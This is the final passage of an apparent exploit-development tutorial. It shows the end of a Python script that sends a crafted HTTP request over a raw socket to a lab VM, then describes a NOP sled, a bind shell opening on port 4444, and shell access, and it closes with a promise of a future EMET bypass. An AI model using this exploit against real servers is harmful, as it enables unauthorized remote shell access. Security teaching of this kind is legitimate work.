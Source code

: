 ```python
buffer += "Accept: */*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

If we execute this now, and pause right after we execute the long jump, we can see we hit around about the middle to end of our NOP sled:

[![](https://4.bp.blogspot.com/-gITmOZJGNm4/VEGv58U5LbI/AAAAAAAAAdc/aiOCJ5z96E8/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_078.png)](https://4.bp.blogspot.com/-gITmOZJGNm4/VEGv58U5LbI/AAAAAAAAAdc/aiOCJ5z96E8/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_078.png)

Executing this code results in port 4444 opening:

[![](https://3.bp.blogspot.com/-CDIxFf0LncU/VEGwVV-jIgI/AAAAAAAAAdk/FkMZsYuwYFE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_079.png)](https://3.bp.blogspot.com/-CDIxFf0LncU/VEGwVV-jIgI/AAAAAAAAAdk/FkMZsYuwYFE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_079.png)

Connecting to this port returns a shell:

[![](https://3.bp.blogspot.com/-VBJAhNqMxUk/VEGwkBau-cI/AAAAAAAAAds/vZIlUH2QpLU/s0/Kali%2BLinux%2B1.0.6%2B32%2Bbit%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_080.png)](https://3.bp.blogspot.com/-VBJAhNqMxUk/VEGwkBau-cI/AAAAAAAAAds/vZIlUH2QpLU/s0/Kali%2BLinux%2B1.0.6%2B32%2Bbit%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_080.png)


# Conclusion

Hopefully this was a good tutorial on how to find your own vulnerabilities and turn them into an exploit. I always wanted to do something like this as soon as I found my first proper vulnerability so here you go :)

In a future tutorial I will cover how I modified this exploit to do a partial bypass of EMET minus DEP. In the meantime I hope you enjoyed this tutorial. Let me know if there is anything that is not clear or if you would like me to expand any of the sections to explain things more.